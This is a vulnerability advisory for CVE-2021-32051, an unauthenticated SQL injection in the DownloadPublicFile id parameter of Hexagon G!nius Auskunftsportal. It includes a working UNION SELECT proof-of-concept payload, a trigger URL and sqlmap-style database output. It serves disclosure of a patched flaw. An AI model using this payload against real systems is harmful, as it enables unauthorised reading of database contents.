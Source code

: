 INFO
----

    CVE-2021-32051 Hexagon G!nius Auskunftsportal before 5.0.0.0 allows SQL injection via the GiPWorkflow/Service/DownloadPublicFile id parameter.

    [Additional Information]
    PoC Payload: id=test' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CHR(113)||
    CHR(107)||CHR(112)||CHR(122)||CHR(113)||CHR(107)||CHR(71)||CHR(98)||CHR(88)||CHR(104)||CHR(102)||CHR(99)||
    CHR(67)||CHR(113)||CHR(109)||CHR(69)||CHR(110)||CHR(67)||CHR(76)||CHR(103)||CHR(84)||CHR(83)||CHR(109)||
    CHR(121)||CHR(84)||CHR(73)||CHR(116)||CHR(79)||CHR(103)||CHR(87)||CHR(84)||CHR(120)||CHR(119)||CHR(75)||
    CHR(76)||CHR(114)||CHR(120)||CHR(103)||CHR(85)||CHR(87)||CHR(112)||CHR(111)||CHR(70)||CHR(108)||CHR(73)||
    CHR(113)||CHR(112)||CHR(113)||CHR(120)||CHR(113),NULL FROM DUAL-- LShX

    Result:
    ====
    back-end DBMS: Oracle
    banner: 'Oracle Database 19c Standard Edition 2 Release 19.0.0.0.0 - Production'
    current user: 'IPA_ADMIN'
    current database (equivalent to schema on Oracle): 'IPA_ADMIN'
    current user is DBA: False
    database management system users [18]:
    ====


    Impact:
    Complete compromise of the database's data integrity.

    Discovery:
    1. Discovered manually
    2. Exploited via sqlmap
    ------------------------------------------
    [Vulnerability Type]
    SQL Injection
    ------------------------------------------
    [Vendor of Product]
    Hexagon AG
    ------------------------------------------
    [Affected Product Code Base]
    G!nius Auskunftsportal - 5.0.0.0 (fixed)
    ------------------------------------------
    [Affected Component]
    DownloadPublicFile component
    ------------------------------------------
    [Attack Type]
    Remote
    ------------------------------------------
    [Impact Information Disclosure]
    true
    ------------------------------------------
    [Attack Vectors]
    The web application has a function ("DownloadPublicFile") which facilitates downloads.
    The "id" parameter (used to specify which file is to be downloaded) is vulnerable to SQL injection.
    This SQL injection attack surface allows the Oracle database backend to be accessed and read without authentication by using a "UNION SELECT" payload.
    Accessing the following URL will trigger an Oracle error message:
    https://[affected site root]/GiPWorkflow/Service/DownloadPublicFile?id=DS'
    The apostrophe at the end (Unicode U+0027) interrupts the application's hard-coded SQL query.
    At this point a "UNION SELECT" payload can be used to access any data within the database.
    ------------------------------------------
    [Has vendor confirmed or acknowledged the vulnerability?]
    true
    A patch has been developed, released and installed to all known instances of the vulnerability a full six months prior to public disclosure.
    ------------------------------------------
    [Discoverer]
    Marcel Keiffenheim
    ------------------------------------------
    [Reference]
    https://www.hexagonsafetyinfrastructure.com/products/utilities-and-communications-products/advanced-utility-gis/hexagon-ginius